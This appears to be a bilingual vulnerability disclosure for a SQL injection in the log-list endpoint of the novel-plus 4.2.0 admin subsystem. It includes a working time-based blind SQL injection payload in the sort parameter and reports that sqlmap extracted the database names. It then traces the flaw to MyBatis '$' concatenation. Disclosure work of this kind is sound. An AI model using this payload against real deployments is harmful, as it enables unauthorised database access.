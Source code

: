 
# The common/log/list interface of the novel-admin subsystem in the novel-plus system has SQL injection vulnerability.

# novel-plus系统novel-admin子系统common/log/list接口存在SQL注入

### novel-plus：https://github.com/201206030/novel-plus
### Version：https://github.com/201206030/novel-plus/releases/tag/4.2.0

> Payload: http://127.0.0.1:8088/common/log/list?limit=10&offset=0&sort=gmt_create AND (SELECT 1155 FROM (SELECT(SLEEP(5)))YVhZ)&order=desc&operation=&username=

Use sqlmap for verification, and retrieve all the database names.

使用sqlmap验证，跑出所有库名：

> information_schema<br>
> novel_plus

![image.png](https://cdn.nlark.com/yuque/0/2024/png/3014908/1705300429943-63dd8aa9-b069-4ef9-865a-f35097ebb128.png#averageHue=%23131313&clientId=uf69594bc-e91d-4&from=paste&height=585&id=u90d64431&originHeight=790&originWidth=2204&originalType=binary&ratio=1.3499999046325684&rotation=0&showTitle=false&size=143888&status=done&style=none&taskId=u9eba4599-6ba6-4cf1-b98e-fb6f63c990a&title=&width=1632.5927079230914)

The list interface in LogController calls the queryList method from LogService to query logs.

LogController中list接口调用LogService的queryList方法查询日志；

novel-admin/src/main/java/com/java2nb/common/controller/LogController.java

![image.png](https://cdn.nlark.com/yuque/0/2024/png/3014908/1705298345047-65504545-cadc-4f7e-a387-3bf27d45e880.png#averageHue=%232e2c2b&clientId=uac25bd4d-4807-4&from=paste&height=649&id=ua4f4b94c&originHeight=876&originWidth=1072&originalType=binary&ratio=1.3499999046325684&rotation=0&showTitle=false&size=117700&status=done&style=none&taskId=u4da64b9d-e333-4cb9-9c65-9fe8dec5cc1&title=&width=794.0741301694891)

LogServiceImpl calls logMapper to query the logs.

LogServiceImpl中调用logMapper查询日志；

novel-admin/src/main/java/com/java2nb/common/service/impl/LogServiceImpl.java

![image.png](https://cdn.nlark.com/yuque/0/2024/png/3014908/1705298425700-17707c68-bd80-4c5e-bde7-906a3613a22a.png#averageHue=%232e2c2b&clientId=uac25bd4d-4807-4&from=paste&height=651&id=ud9f5f2e3&originHeight=879&originWidth=1030&originalType=binary&ratio=1.3499999046325684&rotation=0&showTitle=false&size=112809&status=done&style=none&taskId=u65d05bc8-812c-47f2-a42e-7c78c32fc53&title=&width=762.9630168606099)

In LogMapper, the usage of the $ symbol to concatenate the sort parameter and the order parameter results in an SQL injection vulnerability.

LogMapper中sort参数和order参数使用了$符号来拼接，导致存在SQL注入漏洞；

novel-admin/src/main/resources/mybatis/common/LogMapper.xml

![image.png](https://cdn.nlark.com/yuque/0/2024/png/3014908/1705298554780-94226292-b6f7-441e-96c3-67407b1b25b0.png#averageHue=%2354513a&clientId=uac25bd4d-4807-4&from=paste&height=861&id=u2a7f34e0&originHeight=1162&originWidth=1652&originalType=binary&ratio=1.3499999046325684&rotation=0&showTitle=false&size=247962&status=done&style=none&taskId=u985f88b1-2de8-4f2b-b0ec-95e569ef91c&title=&width=1223.7037901492502)






